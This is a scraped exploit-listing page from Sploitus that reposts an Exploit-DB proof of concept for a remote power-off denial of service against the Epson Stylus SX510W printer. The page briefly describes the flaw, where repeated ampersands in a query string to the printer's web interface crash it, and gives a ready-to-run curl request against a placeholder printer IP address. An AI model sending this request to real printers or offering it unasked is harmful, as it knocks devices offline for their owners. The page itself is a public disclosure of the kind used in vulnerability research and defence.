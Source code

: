 ```yaml
---
title: Epson Stylus SX510W Printer Remote Power Off - Denial of Service exploit
url: https://sploitus.com/exploit?id=EDB-ID:51441&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-14
fetch_date: 2025-10-04T11:36:44.237899
---
```


# Epson Stylus SX510W Printer Remote Power Off - Denial of Service exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Epson Stylus SX510W Printer Remote Power Off - Denial of Service

2023-05-13 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51441
# Exploit Title: Epson Stylus SX510W Printer Remote Power Off - Denial of Service (PoC)
# Discovery by: Rafael Pedrero
# Discovery Date: 2020-05-16
# Vendor Homepage: https://www.epson.es/
# Software Link :
https://www.epson.es/products/printers/inkjet-printers/for-home/epson-stylus-sx510w
# Tested Version: EPSON_Linux UPnP/1.0 Epson UPnP SDK/1.0
# Tested on: Linux/Windows
# Vulnerability Type: Denial of Service (DoS)

1. Description

The vulnerability occurs when 2 or more &'s are sent to the server in a row
("/PRESENTATION/HTML/TOP/INDEX.HTML") causing it to shutdown.

2. Proof of Concept

Request:

curl -s "http://
<printer_ip_address>/PRESENTATION/HTML/TOP/INDEX.HTML?RELOAD=&&tm=1589865865549"

3. Solution:

This version product is deprecated.

-->
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)